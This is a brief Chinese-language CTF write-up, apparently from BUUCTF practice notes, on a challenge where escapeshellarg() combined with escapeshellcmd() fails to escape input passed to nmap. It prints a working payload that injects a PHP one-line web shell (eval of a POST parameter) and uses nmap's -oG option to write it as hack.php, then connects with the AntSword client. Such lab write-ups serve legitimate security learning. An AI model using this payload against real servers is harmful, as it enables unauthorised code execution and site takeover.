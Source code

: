 考察知识点：

1.nmap -oG参数具有写文件操作

2.PHP escapeshellarg()+escapeshellcmd() 之殇

两个函数搭配会使原来的转义效果，消失

https://paper.seebug.org/164/



1. 构造一句话木马访问即可

```javascript
?host=<?php @eval($_POST["hack"]);?> -oG hack.php
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/601B5E1515B64282882D8C149F5F029Bclipboard.png)



2.蚁剑访问即可

